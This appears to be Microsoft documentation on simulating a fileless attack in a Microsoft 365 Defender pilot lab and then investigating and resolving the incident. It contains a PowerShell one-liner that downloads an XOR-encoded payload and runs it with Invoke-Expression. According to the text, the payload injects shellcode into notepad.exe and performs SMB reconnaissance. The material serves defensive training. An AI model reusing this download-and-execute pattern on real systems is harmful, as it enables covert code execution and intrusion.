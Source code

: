 = Run an attack simulation in a Microsoft 365 Defender pilot environment
:audience: ITPro
:author: dansimp
:description: Run attack simulations for Microsoft 365 Defender to see how alerts and incidents are presented, insights are gained, and threats are quickly remediated.
:experimental:
:f1.keywords: ["NOCSH"]
:manager: dansimp
:ms.author: dansimp
:ms.collection: ["M365-security-compliance", "m365solution-scenario", "m365solution-pilotmtpproject", "zerotrust-solution", "highpri"]
:ms.custom: admindeeplinkDEFENDER
:ms.date: 07/09/2021
:ms.localizationpriority: medium
:ms.mktglfcycl: deploy
:ms.pagetype: security
:ms.service: microsoft-365-security
:ms.sitesec: library
:ms.subservice: m365d
:ms.topic: conceptual
:search.appverid: met150
:search.product: eADQiWindows 10XVcnh

== Run an attack simulation in a Microsoft 365 Defender pilot environment

This article is xref:eval-defender-investigate-respond.adoc[Step 1 of 2] in the process of performing an investigation and response of an incident in Microsoft 365 Defender using a pilot environment.
For more information about this process, see the xref:eval-defender-investigate-respond.adoc[overview] article.

After preparing your xref:eval-defender-investigate-respond.adoc[pilot environment], it's time to test Microsoft 365 Defender's incident response and automated investigation and remediation capabilities by creating an incident with a simulated attack and using the Microsoft 365 Defender portal to investigate and respond.

An incident in Microsoft 365 Defender is a collection of correlated alerts and associated data that make up the story of an attack.

Microsoft 365 services and apps create alerts when they detect a suspicious or malicious event or activity.
Individual alerts provide valuable clues about a completed or ongoing attack.
However, attacks typically employ various techniques against different types of entities, such as devices, users, and mailboxes.
The result is multiple alerts for multiple entities in your tenant.

____
[!Note] If you are brand new to security analysis and incident response, see the xref:first-incident-overview.adoc[Respond to your first incident walkthrough] to get a guided tour of a typical process of analysis, remediation, and post-incident review.
____

=== Simulate attacks with the Microsoft 365 Defender portal

The Microsoft 365 Defender portal has built-in capabilities to create simulated attacks on your pilot environment:

* Attack simulation training for Microsoft 365 Defender for Office 365 at https://security.microsoft.com/attacksimulator.
+
In the Microsoft 365 Defender portal, select menu:Email & collaboration[Attack simulation training].

* Attack tutorials & simulations for Microsoft 365 Defender for Endpoint at https://security.microsoft.com/tutorials/simulations.
+
In the https://go.microsoft.com/fwlink/p/?linkid=2077139[Microsoft 365 Defender portal], select menu:Endpoints[Tutorials & simulations].

==== Defender for Office 365 Attack simulation training

Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 includes attack simulation training for phishing attacks.
The basic steps are:

. Create a simulation
+
For step by step instructions on how to create and launch a new simulation, see link:/microsoft-365/security/office-365-security/attack-simulation-training[Simulate a phishing attack].

. Create a payload
+
For step by step instructions on how to create a payload for use within a simulation, see link:/microsoft-365/security/office-365-security/attack-simulation-training-payloads[Create a custom payload for attack simulation training].

. Gaining insights
+
For step by step instructions on how to gain insights with reporting, see link:/microsoft-365/security/office-365-security/attack-simulation-training-insights[Gain insights through attack simulation training].
+
____
[!VIDEO https://www.microsoft.com/videoplayer/embed/RWMhvB]
____

For more information, see link:/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations[Simulations].

==== Defender for Endpoint attack tutorials & simulations

Here are the Defender for Endpoint simulations from Microsoft:

* Document drops backdoor
* Automated investigation (backdoor)

There are additional simulations from third-party sources.
There are also a set of tutorials.

For each simulation or tutorial:

. Download and read the corresponding walk-through document provided.
. Download the simulation file.
You can choose to download the file or script on the test device but it's not mandatory.
. Run the simulation file or script on the test device as instructed in the walk-through document.

For more information, see link:/microsoft-365/security/defender-endpoint/attack-simulations[Experience Microsoft Defender for Endpoint through simulated attack].

=== Simulate an attack with an isolated domain controller and client device (optional)

In this optional incident response exercise, you'll simulate an attack on an isolated Active Directory Domain Services (AD DS) domain controller and Windows device using a PowerShell script and then investigate, remediate, and resolve the incident.

First, you need to add endpoints to your pilot environment.

==== Add pilot environment endpoints

First, you need to add an isolated AD DS domain controller and a Windows device to your pilot environment.

. Verify your pilot environment tenant has link:m365d-enable.md#confirm-that-the-service-is-on[enabled Microsoft 365 Defender].
. Verify that your domain controller:
 ** Runs Windows Server 2008 R2 or a later version.
 ** Reports to link:/azure/security-center/security-center-wdatp[Microsoft Defender for Identity] and has enabled link:/windows-server/administration/server-manager/configure-remote-management-in-server-manager[remote management].
 ** Has link:/cloud-app-security/mdi-integration[Microsoft Defender for Identity and Microsoft Defender for Cloud Apps integration] enabled.
 ** Has a test user is created in the test domain.
Administrator-level permissions are not needed.
. Verify that your test device:
 ** Runs Windows 10 version 1903 or a later version.
 ** Is joined to the AD DS domain controller domain.
 ** Has link:/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features[Microsoft Defender Antivirus] enabled.
If you are having trouble enabling Microsoft Defender Antivirus, see this link:/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-microsoft-defender-antivirus-is-not-disabled-by-a-policy[troubleshooting topic].
 ** Is link:/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints[onboarded to Microsoft Defender for Endpoint].

If you use tenant and device groups, create a dedicated device group for the test device and push it to top level.

One alternative is to host your AD DS domain controller and test device as virtual machines in Microsoft Azure infrastructure services.
You can use the instructions in link:/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet[Phase 1 of the simulated enterprise Test Lab Guide], but skip the creation of the APP1 virtual machine.

Here is the result.

:::image type="content" source="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png" alt-text="The evaluation environment using the simulated enterprise Test Lab Guide" lightbox="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png":::

You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection.
The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.
This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory.
They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution.
Such behavior allows them to evade detection and persist on the device.

In this simulation, our sample scenario starts with a PowerShell script.
In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network.
Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.

:::image type="content" source="../../media/mtp/mtpdiydiagram.png" alt-text="The Fileless PowerShell attack with process injection and SMB reconnaisance attack" lightbox="../../media/mtp/mtpdiydiagram.png":::

During the simulation, the attack injects shellcode into a seemingly innocent process.
The scenario requires the use of notepad.exe.
We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.
The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.
The script attempts executing reconnaissance queries against the domain controller (DC).
Reconnaissance allows an attacker to get information about recent user login information.
Once attackers have this information, they can move laterally in the network to get to a specific sensitive account

____
[!IMPORTANT] For optimum results, follow the attack simulation instructions as closely as possible.
____

==== Run the isolated AD DS domain controller attack simulation

To run the attack scenario simulation:

. Ensure that your pilot environment includes the isolated AD DS domain controller and Windows device.
. Sign in to the test device with the test user account.
. Open a Windows PowerShell window on the test device.
. Copy the following simulation script:
+
[,powershell]
----
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
----
+
____
[!NOTE] If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.
If this is the case, download this document and open it on Adobe Reader.
____

. Paste and run the copied script in the PowerShell window.

____
[!NOTE] If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the *CTRL-V* hotkey or right-click-paste method might not work.
Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.
____

A few seconds later, the Notepad app will open.
A simulated attack code will be injected into Notepad.
Keep the automatically generated Notepad instance open to experience the full scenario.

The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.

You'll see this message displayed on the PowerShell console when this script completes:

[,console]
----
ran NetSessionEnum against [DC Name] with return code result 0
----

To see the Automated Incident and Response feature in action, keep the notepad.exe process open.
You'll see Automated Incident and Response stop the Notepad process.

==== Investigate the incident for the simulated attack

____
[!NOTE] Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:
____

____
[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]
____

Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Defender portal.

. Open the https://go.microsoft.com/fwlink/p/?linkid=2077139[Microsoft 365 Defender portal].
. From the navigation pane, select menu:Incidents & Alerts[Incidents].
. The new incident for the simulated attack will appear in the incident queue.
+
:::image type="content" source="../../media/mtp/fig2.png" alt-text="An example of the Incidents queue" lightbox="../../media/mtp/fig2.png":::

===== Investigate the attack as a single incident

Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.
By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.

The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.

To view the incident:

. Open the https://go.microsoft.com/fwlink/p/?linkid=2077139[Microsoft 365 Defender portal].
. From the navigation pane, select menu:Incidents & Alerts[Incidents].
. Select the newest item by clicking on the circle located left of the incident name.
A side panel displays additional information about the incident, including all the related alerts.
Each incident has a unique name that describes it based on the attributes of the alerts it includes.
+
The alerts that are shown in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Defender for Cloud Apps, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.

. Select *Open incident page* to get more information about the incident.
+
In the *Incident* page, you can see all the alerts and information related to the incident.
The information includes the entities and assets that are involved in the alert, the detection source of the alerts (such as Microsoft Defender for Identity or Microsoft Defender for Endpoint), and the reason they were linked together.
Reviewing the incident alert list shows the progression of the attack.
From this view, you can see and investigate the individual alerts.
+
You can also click *Manage incident* from the right-hand menu, to tag the incident, assign it to yourself, and add comments.

===== Review generated alerts

Let's look at some of the alerts generated during the simulated attack.

____
[!NOTE] We'll walk through only a few of the alerts generated during the simulated attack.
Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.
____

:::image type="content" source="../../media/mtp/fig6.png" alt-text="An example of a generated alert" lightbox="../../media/mtp/fig6.png":::

====== Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint)

Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.
One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.

To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.
The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to _notepad.exe_.

:::image type="content" source="../../media/mtp/fig7.png" alt-text="An example of the alert for injection of a potentially malicious code" lightbox="../../media/mtp/fig7.png":::

====== Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint)

Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.
This method ensures durability and raises the bar for attackers to switch to newer tactics.

We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.
These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.

For this scenario, the process _notepad.exe_ is exhibiting abnormal behavior, involving communication with an external location.
This outcome is independent of the specific method used to introduce and execute the malicious code.

____
[!NOTE] Because this alert is based on machine learning models that require additional backend processing, it might take some time before you see this alert in the portal.
____

Notice that the alert details include the external IP address--an indicator that you can use as a pivot to expand investigation.

Select the IP address in the alert process tree to view the IP address details page.

:::image type="content" source="../../media/mtp/fig8.png" alt-text="An example for unexpected behavior by a process run with no command line arguments" lightbox="../../media/mtp/fig8.png":::

The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).

:::image type="content" source="../../media/mtp/fig9.png" alt-text="An example of the IP address details page" lightbox="../../media/mtp/fig9.png":::

====== Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)

Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.

In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.

:::image type="content" source="../../media/mtp/fig10.png" alt-text="An example of Microsoft Defender for Identity alert for User and IP address reconnaissance" lightbox="../../media/mtp/fig10.png":::

===== Review the device timeline with Microsoft Defender for Endpoint

After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.
Select the *Devices* tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.

Select the name of the device where the attack was conducted, to open the entity page for that specific device.
In that page, you can see alerts that were triggered and related events.

Select the *Timeline* tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.

:::image type="content" source="../../media/mtp/fig11.png" alt-text="An example of the device timeline with behaviors" lightbox="../../media/mtp/fig11.png":::

Expanding some of the more interesting behaviors provides useful details, such as process trees.

For example, scroll down until you find the alert event *Suspicious process injection observed*.
Select the *powershell.exe injected to notepad.exe process* event below it, to display the full process tree for this behavior under the *Event entities* graph on the side pane.
Use the search bar for filtering if necessary.

:::image type="content" source="../../media/mtp/fig12.png" alt-text="An example of the process tree for selected PowerShell file creation behavior" lightbox="../../media/mtp/fig12.png":::

===== Review the user information with Microsoft Defender for Cloud Apps

On the incident page, select the *Users* tab to display the list of users involved in the attack.
The table contains additional information about each user, including each user's *Investigation Priority* score.

Select the user name to open the user's profile page where further investigation can be conducted.
link:/cloud-app-security/tutorial-ueba#identify[Read more about investigating risky users].

:::image type="content" source="../../media/mtp/fig13.png" alt-text="Defender for Cloud Apps user page" lightbox="../../media/mtp/fig13.png":::

===== Automated investigation and remediation

____
[!NOTE] Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:
____

____
[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]
____

Navigate back to the incident in the Microsoft 365 Defender portal.
The *Investigations* tab in the *Incident* page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.
The screenshot below displays only the automated investigation triggered by Defender for Endpoint.
By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.

:::image type="content" source="../../media/mtp/fig14.png" alt-text="An example of the automated investigations related to the incident" lightbox="../../media/mtp/fig14.png":::

Select the alert that triggered an investigation to open the *Investigation details* page.
You'll see the following details:

* Alert(s) that triggered the automated investigation.
* Impacted users and devices.
If indicators are found on additional devices, these additional devices will be listed as well.
* List of evidence.
The entities found and analyzed, such as files, processes, services, drivers, and network addresses.
These entities are analyzed for possible relationships to the alert and rated as benign or malicious.
* Threats found.
Known threats that are found during the investigation.

____
[!NOTE] Depending on timing, the automated investigation might still be running.
Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.
Refresh the *Investigation details* page to get the latest findings.
____

:::image type="content" source="../../media/mtp/fig15.png" alt-text="An example of the Investigation details page" lightbox="../../media/mtp/fig15.png":::

During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.
Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.

You can see _notepad.exe_ disappear from the list of running processes on the test device.

===== Resolve the incident

After the investigation is complete and confirmed to be remediated, you resolve the incident.

From the *Incident* page, select *Manage incident*.
Set the status to *Resolve incident* and select *True alert* for the classification and *Security testing* for the determination.

:::image type="content" source="../../media/mtp/fig16.png" alt-text="An example of the incidents page with the open Manage incident panel where you can click the switch to resolve incident" lightbox="../../media/mtp/fig16.png":::

When the incident is resolved, it resolves all of the associated alerts in the Microsoft 365 Defender portal and the related portals.

This wraps up attack simulations for incident analysis, automated investigation, and incident resolution.

=== Next step

xref:eval-defender-investigate-respond-additional.adoc[:::image type="content" source="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-step2.png" alt-text="The Microsoft 365 Defender incident response capabilities" lightbox="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-step2.png":::]

Step 2 of 2: xref:eval-defender-investigate-respond-additional.adoc[Try Microsoft 365 Defender incident response capabilities]

==== Navigation you may need

xref:eval-create-eval-environment.adoc[Create the Microsoft 365 Defender Evaluation Environment]
